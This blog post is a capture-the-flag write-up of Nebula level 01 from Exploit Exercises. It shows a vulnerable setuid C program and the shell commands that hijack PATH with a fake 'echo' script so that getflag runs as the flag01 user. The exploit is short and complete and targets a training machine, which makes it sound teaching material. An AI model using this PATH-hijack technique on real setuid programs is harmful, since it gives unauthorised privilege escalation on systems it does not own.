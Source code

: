 ```yaml
---
layout:     post
title:      "Nebula 01"
subtitle:   "Exploit Exercises Write-Up"
date:       2017-06-07 0:00:00
author:     "W3ndige"
permalink: /:title/
category: "Exploit Exercises"
---
```


<h1>Introduction</h1>

<p>Let's start another challenge from Nebula machine and see what's our target this time. </p>

<h1>Challenge</h1>

<p><b>About</b></p>

<pre>
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.
</pre>

<p><b>Code</b></p>

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endhighlight %}

<p><b>Solution</b></p>

<p>Firstly, from the code, we know that <b>/usr/bin/env</b> will execute a program with the current enviroment. It includes a <b>$PATH</b> variable, which stores information where programs can be found. That way we can change the $PATH to some other folder, containing <b>echo</b> script. Then it will run the getflag program, just like in the previous level. </p>

{% highlight bash %}
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls -l
total 8
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
{% endhighlight %}

<p>In addition, setuid bit is set, so it will run as the owner <b>flag01</b>. Let's start from creating a tmp directory, which will be our fake one. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ mkdir /tmp/level01
{% endhighlight %}

<p>Now we are able to create fake PATH using export command, and then create the fake echo program. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ export PATH="/tmp/level01:$PATH"
level01@nebula:/home/flag01$ echo "getflag" > /tmp/level01/echo
{% endhighlight %}

<p>Don't forget about the execute permissions. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ chmod +x /tmp/level01/echo
{% endhighlight %}

<p>And we're ready to go, and run this vulnerable program. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ ./flag01
You have successfully executed getflag on a target account
{% endhighlight %}

<p>Another challenge completed! </p>
